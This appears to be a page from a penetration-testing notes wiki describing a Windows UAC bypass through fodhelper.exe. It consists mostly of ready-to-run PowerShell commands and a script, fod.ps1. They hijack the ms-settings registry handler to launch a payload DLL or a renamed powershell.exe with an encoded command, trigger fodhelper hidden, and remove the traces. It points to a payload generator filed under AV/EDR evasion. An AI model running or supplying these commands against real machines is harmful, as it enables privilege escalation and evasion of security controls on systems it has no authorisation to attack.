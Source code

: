 


## fodhelper.exe

* [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Create and set registry values (the payload is generated with [`charlotte.py`](/pentest/infrastructure/ad/av-edr-evasion/README.md#charlotte)):

```
PS > New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
PS > New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
PS > Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "rundll32 C:\Windows\System32\spool\drivers\color\met.dll, SUJIzDKv" -Force
```

Trigger `fodhelper.exe`:

```
PS > Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Clean up:

```
PS > Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

Another way to do it with a script (hijacking PowerShell executable):

{% code title="fod.ps1" %}
```powershell
function Fod {
    $cmd = "C:\Windows\Tasks\foo.exe -enc <BASE64_CMD>"
	
    copy C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Tasks\foo.exe
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
	
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
	
	Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep -s 3
	
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
}
```
{% endcode %}

The same thing with **ProgID** [abuse](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses):
